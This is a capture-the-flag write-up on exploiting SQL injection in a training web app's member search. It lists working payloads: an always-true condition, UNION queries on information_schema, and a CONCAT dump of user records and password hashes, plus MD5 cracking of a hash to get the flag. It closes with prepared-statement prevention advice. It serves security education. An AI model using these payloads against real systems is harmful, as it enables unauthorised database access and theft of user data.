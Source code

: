 # SQL Injection Vulnerability - Members Search

## Overview
This vulnerability exists in the member search functionality of the web application. By exploiting a SQL injection flaw, I was able to bypass input validation, access the entire database structure, and retrieve sensitive user information including encrypted passwords.

## Vulnerability Details
- **Type**: SQL Injection
- **Location**: Member search input field
- **Risk Level**: Critical
- **Impact**: Complete database compromise

## How I Discovered It

### Step 1: Initial Testing
I started by testing the member search field with a simple SQL injection payload:
```
Input: 1 or 1=1
```

This input gets inserted into a SQL query that looks something like:
```sql
SELECT first_name, last_name FROM users WHERE id = 1 or 1=1
```

Since `1=1` is always true, this condition bypasses the intended search logic and returns all users instead of just one.

### Step 2: Analyzing the Results
The search returned multiple users:
```
ID: 1 or 1=1
First name: one
Surname: me

ID: 1 or 1=1  
First name: two
Surname: me

ID: 1 or 1=1
First name: three
Surname: me

ID: 1 or 1=1
First name: Flag
Surname: GetThe
```

The last entry caught my attention - a user named "Flag GetThe" which looked like it might contain the challenge flag.

### Step 3: Database Exploration
I used SQL injection techniques to explore the database structure:

**Finding all tables:**
```sql
1 union SELECT table_name, table_name FROM information_schema.tables
```

**Finding all columns:**
```sql
1 UNION select table_name, column_name FROM information_schema.columns
```

This revealed the complete database schema and showed me what data was available.

### Step 4: Extracting User Data
Using a UNION attack, I extracted all user information:
```sql
1 or 1=1 union select 1, CONCAT(user_id, 0x20, first_name, 0x20, last_name, 0x20, town, 0x20, country, 0x20, planet, 0x20, Commentaire, 0x20, countersign) from users
```

*Note: `0x20` represents a space character in hexadecimal*

This revealed detailed information for user ID 5 (the "Flag" user):
```
user_id: 5
first_name: Flag
last_name: GetThe
town: 42
country: 42
planet: 42 Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Commentaire: (empty)
countersign: 5ff9d0165b4f92b14994e5c685cdce28
```

### Step 5: Decrypting the Flag
The "planet" field contained instructions: "Decrypt this password -> then lower all the char. Sh256 on it and it's good !"

The `countersign` field contained: `5ff9d0165b4f92b14994e5c685cdce28`

I followed these steps:
1. **Identified the hash type**: The 32-character string looked like an MD5 hash
2. **Cracked the MD5**: `5ff9d0165b4f92b14994e5c685cdce28` = "FortyTwo"
3. **Converted to lowercase**: "FortyTwo" → "fortytwo"  
4. **Applied SHA-256**: SHA-256("fortytwo") = `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

## The Flag
```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Why This Vulnerability is Dangerous

1. **Complete Database Access**: Attackers can read, modify, or delete any data in the database
2. **Data Breach**: Sensitive user information, passwords, and personal data can be stolen
3. **Authentication Bypass**: Attackers might be able to log in as any user
4. **System Compromise**: In some cases, SQL injection can lead to operating system access

## How to Prevent SQL Injection

1. **Use Prepared Statements**: Never concatenate user input directly into SQL queries
   ```php
   // BAD
   $query = "SELECT * FROM users WHERE id = " . $_GET['id'];
   
   // GOOD  
   $stmt = $pdo->prepare("SELECT * FROM users WHERE id = ?");
   $stmt->execute([$_GET['id']]);
   ```

2. **Input Validation**: Validate and sanitize all user inputs
3. **Least Privilege**: Database users should only have the minimum permissions needed
4. **Error Handling**: Don't show detailed database errors to users
5. **Regular Security Testing**: Perform regular penetration testing and code reviews

## SQL Payloads Used

```sql
-- Basic injection test
1 or 1=1

-- Discover database tables
1 union SELECT table_name, table_name FROM information_schema.tables

-- Discover table columns  
1 UNION select table_name, column_name FROM information_schema.columns

-- Extract all user data
1 or 1=1 union select 1, CONCAT(user_id, 0x20, first_name, 0x20, last_name, 0x20, town, 0x20, country, 0x20, planet, 0x20, Commentaire, 0x20, countersign) from users

-- Extract data from other tables
1 or 1=1 union select 1, CONCAT(id, 0x20, username, 0x20, password) from db_default
```